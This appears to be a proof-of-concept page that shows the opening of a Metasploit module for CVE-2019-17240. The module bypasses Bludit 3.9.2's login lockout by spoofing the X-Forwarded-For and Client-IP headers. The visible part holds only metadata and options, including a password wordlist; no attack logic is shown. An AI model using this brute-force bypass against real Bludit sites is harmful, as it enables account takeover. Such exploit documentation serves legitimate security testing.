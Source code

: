 ### **Prueba de concepto**

Código:rubí

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report

  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
      'Description'    => %q{
        Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Original discovery
          '0ne-nine9'  # Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))

     register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptPath.new('PASSWORDS', [ true, 'The list of passwords',
        	File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
      ])
  end

```